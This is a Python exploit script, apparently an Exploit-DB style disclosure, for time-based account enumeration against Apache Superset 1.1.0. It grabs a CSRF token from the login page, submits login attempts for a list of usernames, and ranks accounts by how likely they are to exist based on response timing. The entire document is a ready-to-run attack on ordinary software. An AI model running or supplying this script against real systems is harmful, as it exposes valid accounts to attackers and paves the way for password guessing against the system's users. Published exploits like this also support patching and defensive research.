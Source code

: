     # Exploit Title: Apache Superset 1.1.0 - Time-Based Account Enumeration
    # Author: Dolev Farhi
    # Date: 2021-05-13
    # Vendor Homepage: https://superset.apache.org/
    # Version: 1.1.0
    # Tested on: Ubuntu

    import sys
    import requests
    import time

    scheme = 'http'
    host = '192.168.1.1'
    port = 8080

    # change with your wordlist
    usernames = ['guest', 'admin', 'administrator', 'idontexist', 'superset']

    url = '{}://{}:{}'.format(scheme, host, port)
    login_endpoint = '/login/'

    session = requests.Session()

    def get_csrf():
      token = None
      r = session.get(url + login_endpoint, verify=False)

      for line in r.text.splitlines():
        if 'csrf_token' in line:
          try:
            token = line.strip().split('"')[-2]
          except:
            pass
      return token

    csrf_token = get_csrf()

    if not csrf_token:
      print('Could not obtain CSRF token, the exploit will likely fail.')
      sys.exit(1)

    data = {
      'csrf_token':csrf_token,
      'username':'',
      'password':'abc'
    }

    attempts = {}
    found = False

    for user in usernames:
      start = time.time()
      data['username'] = user
      r = session.post(url + login_endpoint, data=data, verify=False, allow_redirects=True)
      roundtrip = time.time() - start
      attempts["%.4f" % roundtrip] = user

    print('[!] Accounts existence probability is sorted from high to low')

    count = 0

    for key in sorted(attempts, reverse=True):
      count += 1
      print("%s. %s (timing: %s)" % (count, attempts[key], key))